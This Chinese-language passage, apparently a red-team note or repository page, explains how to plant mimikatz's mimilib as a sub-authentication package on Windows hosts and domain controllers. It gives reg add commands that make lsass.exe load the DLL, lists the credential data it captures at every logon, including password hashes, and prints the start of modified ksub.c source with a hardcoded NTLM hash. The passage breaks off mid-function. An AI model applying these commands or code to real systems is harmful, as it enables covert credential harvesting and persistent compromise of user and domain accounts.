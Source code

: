 新建注册表项`Auth0`，类型为`REG_SZ`，值为`mimilib`

对应的cmd命令如下：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0 /v Auth0 /t REG_SZ /d "mimilib" /f
```

如果是域环境，需要在域控制器上进行设置

修改注册表位置：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos`

新建注册表项`Auth0`，类型为`REG_SZ`，值为`mimilib`

对应的cmd命令如下：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Kerberos /v Auth0 /t REG_SZ /d "mimilib" /f
```

重新启动系统

进程lsass.exe将会加载mimilib.dll，当系统产生登录事件时，在`%SystemRoot%\System32`生成文件`kiwisub.log`，记录信息如下：

- UserId
- PrimaryGroupId
- LogonDomainName
- UserName
- Workstation
- BadPasswordCount
- hash

这里需要注意当系统开机时，会记录计算机帐户的登录内容

这里可以尝试加入显示时间的代码，就能够获得每台主机的开机时间和用户登录时间

对应代码地址：https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/ksub.c

修改后的内容如下：

```
/*	Benjamin DELPY `gentilkiwi`
	http://blog.gentilkiwi.com
	benjamin@gentilkiwi.com

	Vincent LE TOUX
	http://pingcastle.com / http://mysmartlogon.com
	vincent.letoux@gmail.com

	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "ksub.h"


const BYTE myHash[LM_NTLM_HASH_LENGTH] = {0xea, 0x37, 0x0c, 0xb7, 0xb9, 0x44, 0x70, 0x2c, 0x09, 0x68, 0x30, 0xdf, 0xc3, 0x53, 0xe7, 0x02}; // Waza1234/admin
NTSTATUS NTAPI ksub_Msv1_0SubAuthenticationRoutine(IN NETLOGON_LOGON_INFO_CLASS LogonLevel, IN PVOID LogonInformation, IN ULONG Flags, IN PUSER_ALL_INFORMATION UserAll, OUT PULONG WhichFields, OUT PULONG UserFlags, OUT PBOOLEAN Authoritative, OUT PLARGE_INTEGER LogoffTime, OUT PLARGE_INTEGER KickoffTime)
{
	FILE *ksub_logfile;;
#pragma warning(push)
#pragma warning(disable:4996)
	if(ksub_logfile = _wfopen(L"kiwisub.log", L"a"))
#pragma warning(pop)
	{
		SYSTEMTIME st;
		GetLocalTime(&st);

```